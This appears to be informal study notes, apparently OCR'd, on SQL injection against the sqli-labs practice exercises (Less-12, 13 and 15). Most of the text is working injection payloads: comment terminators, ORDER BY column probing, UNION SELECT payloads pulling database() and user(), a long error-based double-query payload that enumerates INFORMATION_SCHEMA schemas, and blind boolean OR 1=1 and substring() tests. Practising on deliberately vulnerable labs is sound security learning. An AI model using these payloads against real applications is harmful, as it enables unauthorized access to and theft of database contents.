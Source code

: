 or you can also use # to fix 

# is alos used for comment out part of sqli qyery 

-- or # 

find total no of vulnerable columns 

order by 1 

find exact no of vulnerable columns 

'  union all select 1,2  #

execute database query 


'  union all select database(),user()  #

Less -12 

") union all select 1,2 #

") union all select database(),user() #


Less-13 

') #
') order by 3#

') order by 2 # {order by 2 worked }

') union all select 1,2#

situtation you are getting error but you are not getting output of union sqli staement in that case there may error based sqli or may be double query based sqli 

"   AND(SELECT  1  from(SELECT  COUNT(*),CONCAT((SELECT  (SELECT  (SELECT  DISTINCT  CONCAT(0x7e,0x27,CAST(schema_name  AS  CHAR),0x27,0x7e)  FROM  INFORMATION_SCHEMA.SCHEMATA  WHERE  table_schema!=DATABASE()  LIMIT  1,1))  FROM  INFORMATION_SCHEMA.TABLES  LIMIT  0,1),  FLOOR(RAND(0)*2))x  FROM  INFORMATION_SCHEMA.TABLES  GROUP  BY  x)a)  AND  1=1  #


------------------------------------------

Blind boolien post based sqli 

Less-15 

'  OR 1=1  #

" OR 1=1 #

') OR 1=1 #

") OR 1=1 #


'  OR database()="security"  #

'  OR substring(database(),1,1)="a"  #
